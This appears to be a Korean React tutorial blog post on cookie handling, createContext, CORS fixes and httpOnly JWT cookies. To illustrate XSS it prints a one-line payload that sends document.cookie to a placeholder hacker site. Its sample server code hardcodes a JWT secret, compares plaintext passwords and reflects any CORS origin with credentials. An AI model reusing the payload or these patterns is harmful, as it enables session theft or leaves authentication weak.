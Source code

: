 ```yaml
---
title: "React 54장 - 프로젝트 (3)"
excerpt: "쿠키를 설정해서 사용하자"

categories: React
tags: [React, 리액트, cookie, session, jwt]

toc: true
toc_sticky: true

date: 2023-08-09
last_modified_at: 2023-08-10
---
```


# React

## createContext

- 쿠키를 리코일에 담아 전역적으로 사용하는 방법도 봤지만 `createContext`를 활용한 방법에 대한 작성이다.
- 마찬가지로 전역적인 상태나 데이터를 관리하기 위해 사용되는 함수로, 데이터를 공유하거나 프로퍼티를 전달하지 않고 컴포넌트 간에 값을 주고받을 수 있다고 한다.
- 컴포넌트 트리의 어떤 깊이에서든 해당 컨텍스트의 값을 읽거나 업데이트 할 수 있다.

```js
// type
export interface AuthContextProps {
  token: string | undefined;
  setToken: (token: string) => void;
  removeToken: () => void;
}

// const AuthContext = createContext<AuthContextProps|undefined>(undefined);
```

- 우선 본인은 쿠키에 대한 전역 사용을 할 것이기 때문에 쿠키에 대한 타입만 정의한다.
- 다른 Context 값을 만들어서 필요한 값을 목적에 맞게 작성하면 되겠다.

## AuthProvider

- `React-cookie`를 사용할 것이다.
- 쿠키를 사용하기 위해 `Provider`를 작성하여 최상위에서 감싸줘야 한다.
- `BrowserRouter`를 사용하는 것과 마찬가지로 모든 컴포넌트에서 쿠키를 관리할 수 있게 한다.

```js
function AuthProvider({ children }: { children: React.Node }) {
  const [cookies, setCookie, removeCookie] = useCookies(["token"]);

  const setToken = (token: string) => {
    setCookie("token", token, { path: "/" });
  };

  const removeToken = () => {
    removeCookie("token", { path: "/" });
  };

  const authContextValue: AuthContextProps = {
    token: cookies.token,
    setToken,
    removeToken,
  };

  return <AuthContext.Provider value={authContextValue} />;
}
```

## React-Cookie

- 쿠키에 대한 구조는 아래와 같고 쿠키를 만들고 제거하는 데 옵션을 사용할 수 있다.

```js
const [cookies, setCookie, removeCookie] = useCookies(["쿠키이름"]);
```

- `setCookie(name, value, [options])` 쿠키 값을 설정한다.

  - name[string] : 쿠키 이름
  - value(string|object) : 값을 저장하고 필요한 경우 객체를 문자열화
  - options :
    - path(string) : 쿠키 경로, 모든 페이지에서 쿠키에 액세스할 수 있기 위해선 `/` 사용
    - expires(Date) : 쿠키의 절대 만료 날짜
    - maxAge(number) : 클라이언트가 쿠키를 수신한 시점부터 쿠키의 상대적인 최대 수명 (초)
    - domain(string) : 쿠키의 도메인
    - secure(boolean) : HTTPS를 통해서만 접근
    - httpOnly(boolean) : 서버에서 설정하는 것으로 서버만 쿠키에 접근할 수 있는지 유무
    - sameSite(boolean|none|lax|strice) : Strict 또는 Lax 적용

- `removeCookie(name, [options])` 쿠키를 제거한다.
  - 어디서나 쿠키에 액세스 할 수 있다.
  - cookies : 쿠키를 가져오고 제거할 수 있는 쿠키 인스턴스
  - allCookies : 현재 모든 쿠키

### cors 에러

- 쿠키를 서버와 주고받는 과정에서 `withCredentials: true`를 이용하여, 사용자의 인증 정보를 담아 서버에 전송하고 이를 서버에서 원활히 사용하고자 하였는데 `cors`오류가 발생했다.
- 쿠키를 공부하며 `withCredentials: true`를 사용 시 `cors`오류 발생이 불가피하며 `Access-Control-Allow-Origin`, `Access-Control-Allow-Methods`, `Access-Control-Allow-Credentials` 등의 다양한 옵션을 열어 해결하려 했지만 실패했다.

```js
// server
app.use(cors());

app.use((req, res, next) => {
  res.setHeader("Access-Control-Allow-Origin", "*");
  res.setHeader(
    "Access-Control-Allow-Headers",
    "Origin, X-Requested-With, Content-Type, Accept, Authorization"
  );
  res.setHeader("Access-Control-Allow-Methods", "GET, POST, PATCH, DELETE");
  res.setHeader("Access-Control-Allow-Credentials", "true");

  next();
});

// client
export const api = axios.create({
  baseURL: "http://localhost:3001",
  timeout: 5000,
  headers: {
    "Content-Type": "application/json",
  },
  withCredentials: true,
});
```

- 위 코드로는 문제가 해결되지 않았다.
- `axios`의 `withCredentials` 옵션값을 끄면 에러가 발생하지 않았는데, 당연히 보안 인증 정보를 담은 통신을 하고자 한다면 옵션값을 켜야 했고 다양한 해결방법을 검색했다.
- 다양한 방법을 하나하나 넣어가며 대입한 결과 `jwt`를 만들 때, 보안 옵션으로 `httpOnly: true`를 사용하였는데, 이 옵션은 보안성을 높인 옵션으로, 사이트를 공격하고자 하는 해커가 자바스크립트를 사용해 쿠키를 가로채려 하는 **`XSS`(Cross Site Scripting)** 공격을 막기 위해 사용된다.

```js
location.href = "http://해커사이트/?cookies=" + document.cookie;
```

- 위와 같은 코드를 공개된 게시판에 작성할 시, 이 게시물을 읽은 사용자가 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 된다.
- 옵션을 설정하면 브라우저에서 쿠키에 접근할 수 없도록 제한하며 위에서 말한 공격이 차단되게 된다.
- 이대로만 요청을 보내게 된다면 `Request error`가 발생하는 데, 이것을 해결하고자 서버에서 모든 응답에 대한 헤더를 열어주어야 한다.
- 위의 서버 코드에서 `Access-Control-Allow-Origin`에 대한 와이들 카드는 사용할 수 없고 `Origin`을 반드시 설정해줘야 한다.
- `cors`미들웨어에 작성할 수 있다.

```js
app.use(
  cors({
    origin: true,
    credentials: true,
  })
);
```

- 정상적으로 작동된다.

### 클라이언트의 리액트 쿠키

- 쿠키를 사용하고자 리액트 쿠키를 사용했다.
- 서버로부터 `jwt`로 만들어 전달받은 쿠키를 리액트 쿠키에 담아 사용하려 했는데, 쿠키값이 `null`로 표시되는 버그가 있었다.
- 사용자의 정보를 전역 상태로 저장하여 사용하는 방법도 있지만, 페이지가 리렌더링 될 때 `useEffect`를 사용하여 쿠키가 있는지 확인하고 서버에서 `jwt`를 사용하여 받은 쿠키에 대한 정보를 복호화해 사용하는 방법을 시도해봤다.

```js
// server
const app = express();
app.use(cors({origin: true, credentials: true}));

async function loginUser(req, res, next){
  try{
    const { id, password } = req.body;
    const user = await User.findOne({id});

    if(!user) res.status(401).send("일치하는 유저가 없습니다.");
    if(user.password !== password) res.status(401).send("비밀번호가 일치하지 않습니다.");

    const token = jwt.sign({id: user.id}, "supersecret", {expriesIn: "1h"});
    res.cookie("token", token, {httpOnly: true});
    res.status(201).send("로그인되었습니다.");
  }
}

userRouter.get("/login", loginUser);

// client
api.get("/login").then(res => {
  alert(res.data);
  setCookie(res.cookie);
  }).catch(err => ...);
```

- 위 코드와 같이 로그인 할 때 일치하는 유저 정보를 찾아, 유저가 존재한다면 쿠키를 보내주는 형식의 코드이다.
- `cookie`는 `header`에 담겨 전송되기 때문에 후처리를 할 필요가 없다.
- 내가 작성한 코드는, 전송되는 쿠키를 리액트 쿠키에 담아 사용하려 했다.
- 브라우저 `Application`에 토큰은 잘 담겨져 있지만 리액트 쿠키에 대한 값은 `null` 을 반환했다.
- 우선 서버에서 `httpOnly` 옵션을 사용하여 전송한 토큰은 클라이언트 측에서 읽기가 불가능하다.
- 읽기가 불가능한 값을 리액트 쿠키에 담아 사용하려 했기에 `null`을 반환하였고, 쿠키는 요청`header`에 담겨 전송되며 자동적으로 브라우저에 담기기 때문에 리액트 쿠키를 굳이 사용하지 않아도 됐다.
- `req`요청에 대한 `cookie`라는 옵션을 사용하면 클라이언트에서 전송한 요청 헤더에 담긴 쿠키를 자동적으로 읽어내기 때문에 이 값을 사용하면 되는 문제였다.
  - 서버에서 요청에 `cookie`를 읽기 위해서 `cookie-parser`미들웨어가 필요하다.
